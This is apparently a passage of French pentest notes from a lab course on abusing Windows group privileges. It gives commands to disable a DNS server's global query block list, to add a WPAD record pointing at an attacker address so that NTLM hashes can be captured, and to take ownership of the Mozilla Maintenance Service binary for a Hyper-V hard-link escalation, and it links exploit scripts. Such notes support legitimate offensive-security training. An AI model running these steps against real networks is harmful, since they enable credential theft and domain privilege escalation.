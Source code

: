 ```cmd-session
sc query dns
```

### Mimilib

https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html


## 2. WPAD Record

> [!tip]
> Permet de désactiver le Global Query Block Security.
> Capturer ensuite les hash avec responder / inveigh

####  Désactiver le Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

#### Ajouter le WPAD Record pointant vers notre addresse

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address <ip_attacker>
```




---
# Hyper-V Administrator

> [!TIP]
> Admin hyper-V.
> Permet de monter un clone du DC et récupérer NTDS.dit par exemple


## Hard Links (Pre 2020)

> [!TIP]
> A tester sur n'importe quel service qui s'exécute en tant que system

https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1

### Mozilla Maintenance Service

Modifier l'exploit pour avoir le controle total sur ce fichier > C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

Take ownership du fichier

```cmd-
takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```
